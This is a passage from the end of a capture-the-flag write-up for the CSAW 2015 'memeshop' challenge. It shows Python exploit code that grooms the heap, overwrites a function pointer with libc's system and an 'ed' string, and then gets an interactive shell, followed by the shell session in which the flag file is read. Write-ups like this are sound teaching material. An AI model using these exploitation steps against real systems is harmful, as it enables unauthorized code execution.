     # calculate the address of our awesome "ed" string
    ed = ruby +  0x633

    # create one type 0 meme
    se("l\n")

    # then create 255 more memes
    # (doesn't have to be skeletal type)
    for i in range(255):
        skeletal("1337")

    # then our payload with the system addr @ offset 8 and 
    # the ed string ptr @ offset 16
    skeletal("A"*8 + p64(libc_system) + p64(ed))
    ra(to=2)

    # checkout and pwn!
    se("c\n")
    print "go >"
    interact()

pwn()
{% endhighlight %}

I have added some comments which should explain the exploit. The exploit is really not complicated, the hard part was spotting the integer overflow in my opinion. Finally here is the exploit in action:

{% highlight php %}
python exploit.py
go >
!id
uid=1001(ctf) gid=1001(ctf) groups=1001(ctf)
!cat /*/*/flag
flag{dwn: please tell us your meme. I'm not going to stop asking}
{% endhighlight %}

Remember you need to preceed your shell commands with an exclamation mark since you are in an ed session!

The final exploit can be found [here](https://github.com/kitctf/writeups/blob/master/csaw-2015/memeshop/exploit.py) the extension [here](https://github.com/kitctf/writeups/blob/master/csaw-2015/memeshop/mememachine.so) and the ruby script [here](https://github.com/kitctf/writeups/blob/master/csaw-2015/memeshop/memeshop.rb).


PS: I was told there is also a cool ruby method which basically opens a shell and to which you can directly jump to instead of system. I was not aware of that, but that would make the exploit even simpler. But the "ed" trick is a good one to know anyway :)
